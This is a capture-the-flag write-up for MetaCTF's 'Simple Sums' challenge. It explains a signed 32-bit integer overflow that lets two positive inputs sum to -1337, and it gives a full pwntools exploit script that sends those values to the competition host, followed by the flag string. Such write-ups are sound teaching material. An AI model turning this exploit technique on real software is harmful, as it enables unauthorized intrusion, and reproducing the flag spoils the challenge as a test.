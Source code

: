 # Simple Sums - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SimpleSums.gif)

---

## Challenge Summary

The program prompts the user for two **positive integers**, sums them, and prints the result. If the sum equals `-1337`, it reveals the flag. Though negative input is rejected, the program fails to check for **integer overflow**. By supplying large values that wrap around and cause the sum to equal `-1337`, the attacker can **trigger the win condition** and access `flag.txt`.

## Binary Information

```bash
$ file simplesums
```

![Alt text](img/2.png)

```bash
$ pwn checksec simplesums
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Analyzing the program in CLion reveals:

- The program takes **two positive integers** as input using `scanf()`, rejecting zero or negative values.
- It calculates their sum and stores it in a signed 32-bit `int` named `sum`.
- The sum is printed as an unsigned integer (`%u`), which hides negative results due to overflow.
- The key vulnerability lies in the condition:

  ```c
  if (sum == -1337)
  ```

  This condition can only be true if an **integer overflow** occurs, wrapping a large positive sum into a negative value.

![Alt text](img/4.png)

- There is **no overflow check** after the addition. As a result, this logic can be bypassed by carefully chosen large inputs that produce `-1337` as a 32-bit signed result.
- If the condition is met, the program runs:

  ```c
  system("/bin/cat flag.txt");
  ```

  to print the flag.

![Alt text](img/5.png)

---

## Exploitation Strategy

The goal is to make the sum of two **positive integers** equal `-1337` using a **signed integer overflow**. Since `sum` is a signed `int`, large values can wrap around into the negative range.

To exploit this:

- Find two large positive integers `a` and `b` such that `a + b == -1337` (in 32-bit signed math).
- For example, use:

  ```
  a = 2147482312
  b = 2147483647
  ```

  Because `2147482312 + 2147483647 == 4294965959`, which wraps to `-1337`.

This bypasses the positivity checks and triggers the condition `if (sum == -1337)`, printing the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template simplesums --host host5.metaproblems.com --port 5030
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'simplesums')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5030)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# (unsigned int)(-1337) = 2^32 - 1337 = 4294965959
# a + b == 4294965959

a = b'2147482312'
b = b'2147483647'
io.sendline(a)
io.sendline(b)
io.recvuntil(b"Good job! Here's your flag:")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program reads two positive integers from the user and adds them, but it does not check for **integer overflow**. Since `sum` is a signed integer, users can input large values that **wrap around** to negative numbers. By supplying inputs that cause the sum to equal `-1337` due to overflow, an attacker can bypass the logic and trigger the hidden `flag.txt` read.

---

## Flag

```
MetaCTF{c0unting_beyond_infinity}
```
